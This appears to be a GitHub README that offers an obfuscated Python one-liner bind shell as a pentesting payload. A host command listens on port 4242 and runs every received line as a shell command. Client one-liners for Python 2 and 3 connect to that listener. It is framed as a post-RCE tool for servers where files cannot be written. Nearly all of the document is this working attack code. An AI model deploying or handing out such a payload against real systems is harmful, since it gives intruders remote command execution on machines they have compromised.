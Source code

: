 # Python one-liner bind shell
A python bind shell single line code for both Unix and Windows, you can use this on whatever python version you like (2 or 3). This special useful for pentester when they found an RCE in a python server but they can't create a new file. Also adminstrator will able to create a bind shell to server with just a single code very simple.

#Payloads:
##The host command (to create a bind shell):

```
python -c "(lambda __g, __y, __contextlib: [[[[(s.bind(('0.0.0.0', 4242)), (s.listen(5), [[(lambda __after: [__after() for __g['f'] in [(('\nShell\\%s> ' % u))]][0] if (os.name == 'nt') else [__after() for __g['f'] in [(('%s@shell:$ ' % u))]][0])(lambda: (c.send(f), (lambda __after: __y(lambda __this: lambda: (lambda __break: [(lambda __after: __break() if (d == 'exit') else __after())(lambda: (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: (c.send(('%s%s' % (b, f))), __this())[1])][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and ([True for __out[0] in [([lambda after: after() for __g['b'] in [('')]][0])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [([(lambda __after: __after()) for __g['b'] in [(subprocess.check_output(d, stderr=subprocess.STDOUT, shell=True))]][0])]][0]})())))([None])) for __g['d'] in [(c.recv(1024).decode().replace('\n', ''))]][0])(__after) if 1 else __after())())(lambda: None))[1]) for __g['u'] in [(subprocess.check_output('whoami', stderr=subprocess.STDOUT, shell=True).replace('\n', ''))]][0] for (__g['c'], __g['a']) in [(s.accept())]][0])[1])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), __import__('contextlib', level=0))"
```

##The client command (to connect to the shell):
###Python 2:

```
python -c "(lambda __g, __y: [[[(s.connect((t, 4242)), (lambda __after: __y(lambda __this: lambda: (lambda __break: [[(s.send(b.encode()), (lambda __after: __break() if (b == 'exit') else __after())(lambda: __this()))[1] for __g['b'] in [(raw_input(d))]][0] for __g['d'] in [(s.recv(2048).decode())]][0])(__after) if 1 else __after())())(lambda: None))[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['t'] in [(raw_input('Host: '))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"
```

###Python 3:

```
python3 -c "(lambda __g, __y: [[[(s.connect((t, 4242)), (lambda __after: __y(lambda __this: lambda: (lambda __break: [[(s.send(b.encode()), (lambda __after: __break() if (b == 'exit') else __after())(lambda: __this()))[1] for __g['b'] in [(input(d))]][0] for __g['d'] in [(s.recv(2048).decode())]][0])(__after) if 1 else __after())())(lambda: None))[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['t'] in [(input('Host: '))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"
```

